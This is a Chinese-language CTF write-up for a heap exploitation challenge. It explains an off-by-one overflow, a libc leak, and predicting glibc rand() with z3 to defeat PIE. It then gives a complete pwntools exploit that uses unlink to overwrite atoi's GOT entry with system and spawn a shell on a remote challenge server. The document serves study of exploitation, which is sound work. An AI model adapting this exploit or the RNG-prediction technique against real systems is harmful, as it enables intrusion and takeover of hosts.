 # 简介

一道考察unlink利用的题目，但开了PIE，引出第二个考点[glibc rand(3)预测攻击](http://inaz2.hatenablog.com/entry/2016/03/07/194000)。

# 逆向分析

有5次malloc的机会，大小递增，只有2、3两个可以`destroy`，也就是free，并且free和write、show都是任意的，全局变量中有指向堆的指针。然后，`write_msg`存在溢出，设计好malloc的size大小，就可以溢出一个byte覆盖到下一个chunk的`size`部分。

# 构思
造出`small bin`，free就可以泄漏`libc`，然后很容易想到用unlink去做，并且这里有很方便的atoi，改为system即可getshell。但是本题有PIE，于是思考是否可能leak出程序的信息。

仔细研究发现还有个奇葩的猜随机数功能，猜错给出当前随机数，参考简介中提到的文章可知，内部有31个状态，找到93次输出，用z3就可以解出所有的状态，并预测下一次。

预测成功就可以拿到seed的地址，这是一个`.bss`段的地址，根据偏移就可以推算出堆指针和got entry的地址，用unlink利用即可。

# 利用

```python
from pwn import *
from z3 import *

import sys 
if len(sys.argv) > 1:
    r = remote('123.206.22.95', 8888)
else:
    r = remote('127.0.0.1', 4444)
context.arch = 'amd64'

offset___libc_start_main_ret = 0x20830
offset_system = 0x0000000000045390
offset_dup2 = 0x00000000000f7940
offset_read = 0x00000000000f7220
offset_write = 0x00000000000f7280
offset_str_bin_sh = 0x18cd17


def get(i, size):
    r.sendlineafter('> ', '1')
    r.sendlineafter('> ', str(i))
    r.sendlineafter('> ', str(size))

def free(i):
    r.sendlineafter('> ', '2')
    r.sendlineafter('> ', str(i))

def write(i, msg):
    r.sendlineafter('> ', '3')
    r.sendlineafter('> ', str(i))
    r.send(msg)

def show(i):
    r.sendlineafter('> ', '4')
    r.sendlineafter('> ', str(i))
    c = r.recvuntil('You')
    c = c.replace('You', '')
    c = c.rstrip()
    return u64(c.ljust(8, '\x00'))

def guess(i):
    r.sendlineafter('> ', '5')
    r.sendlineafter('> ', str(i))
    r.recvuntil('!')
    maybe = r.recvuntil('!')
    value = int(maybe.split(' ')[-1].replace('!', ''))
    if 'secret' in maybe:
        return (1, value)
    return (0, value)

actual = []
state = [BitVec("state%d" % i, 32) for i in xrange(31)]
s = Solver()
for i in xrange(93):
    actual.append(guess(1)[1])

for i in xrange(93):
    state[(3+i)%31] += state[i%31]
    output = (state[(3+i) % 31] >> 1) & 0x7fffffff
    s.add(output == actual[i])
    
print s.check()
m = s.model()

for i in xrange(93, 93+31):
    state[(3+i) % 31] += state[i % 31]
    output = m.evaluate((state[(3+i) % 31] >> 1) & 0x7fffffff)
    actual = guess(output)
    assert actual[0] == 1
    break

context.log_level = 'debug'
offset_seed = 0x555555756148
offset_atoi_got = 0x555555756068
offset_box2 = 0x555555756110

seed_addr = actual[1]
print hex(seed_addr)
atoi_got = offset_atoi_got - offset_seed + seed_addr
box2 = offset_box2 - offset_seed + seed_addr
print hex(box2)
get(1, 24)
get(2, 0x90-8)
get(3, 0xa0-8)

free(2)
leak_libc = show(2)
libc_base = leak_libc - 0x3c4b78
print hex(libc_base)
system = offset_system + libc_base
print hex(system)

write(2, flat( 
    0,
    0x81,
    box2-0x18,
    box2-0x10,
    'A'*(0x90-8-8*5),
    0x80,
    '\xa0'
    ))
raw_input('#')
free(3)
write(2, flat(0, 0, 0, atoi_got) + '\n')
print `p64(system)`
write(2, p64(system) + '\n')
r.sendlineafter('> ', '/bin/sh\x00')

r.interactive()
```
